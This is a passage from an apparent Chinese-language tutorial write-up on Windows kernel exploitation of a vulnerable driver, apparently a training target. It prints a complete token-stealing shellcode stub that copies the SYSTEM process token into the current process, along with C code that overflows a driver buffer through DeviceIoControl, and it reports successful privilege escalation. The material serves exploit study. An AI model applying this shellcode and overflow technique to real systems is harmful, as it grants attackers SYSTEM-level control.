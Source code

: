 payload：

```
__asm {
       pushad                               ; 保存寄存器
 
 
       xor eax, eax                         ;eax置0
       mov eax, fs:[eax + KTHREAD_OFFSET]   ; 获得当前线程的_KTHREAD结构，KTHREAD_OFFSET=0x124
                                            ; FS:[0x124] 是 _KTHREAD结构
 
       mov eax, [eax + EPROCESS_OFFSET]     ;  找到_EPROCESS结构， nt!_KTHREAD.ApcState.Process，EPROCESS_OFFSET 0x50
 
 
       mov ecx, eax                         ; ecx ，当前进程Eprocess结构体
 
       mov edx, SYSTEM_PID                  ; WIN 7 SP1 SYSTEM process PID = 0x4
 
       SearchSystemPID:
           mov eax, [eax + FLINK_OFFSET]    ; Get nt!_EPROCESS.ActiveProcessLinks.Flink，FLINK_OFFSET=0xb8
           sub eax, FLINK_OFFSET
           cmp [eax + PID_OFFSET], edx      ; Get nt!_EPROCESS.UniqueProcessId，PID_OFFSET=0xb4
           jne SearchSystemPID              ;遍历链表根据PID判断是否为SYSTEM_PID(0x4)
       //替换token
       mov edx, [eax + TOKEN_OFFSET]        ; 获得系统进程token  。TOKEN_OFFSET=0xf8
       mov [ecx + TOKEN_OFFSET], edx        ; 系统进程token替换当前进程token
 
       ; End of Token Stealing Stub
 
       popad                                ; Restore registers state
 
       ; Kernel Recovery Stub
       xor eax, eax                         ; Set NTSTATUS SUCCEESS
       add esp, 12                          ; Fix the stack
       pop ebp                              ; Restore saved EBP
       ret 8                                ; Return cleanly
   }

```

提权成功：

 

![](https://img-blog.csdnimg.cn/img_convert/9f162071066d0c5108592a9ba053354b.png)

 

在网上看到的一个思路，没有获取 se handle 到 kernelbuffer 的偏移，而是直接将缓冲区数据全部写成 payload 地址，

```
memset(pMapView, 'a', PAGE_SIZE);
 PULONG pOverflowBuffer = (PULONG)((ULONG)pMapView + (PAGE_SIZE - BUFFER_SIZE));// pOverflowBuffer 到被设置为映射内存区的尾部，差BUFFER_SIZE大小
 
 for (ULONG i= 0; i < BUFFER_SIZE; i += 4)
 {
   *(PULONG)((ULONG)pOverflowBuffer + i) = (ULONG)&payload;
 }
 
 ULONG length = 0;
 BOOL ret = DeviceIoControl(hDevice,
     CASE_ID,
     (LPVOID)pOverflowBuffer,
     BUFFER_SIZE + MISS_PAGE_SIZE, 
     //pOverflowBuffer +BUFFER_SIZE + MISS_PAGE_SIZE---》导致驱动访问MISS_PAGE_SIZE大小的无效内存，触发异常
```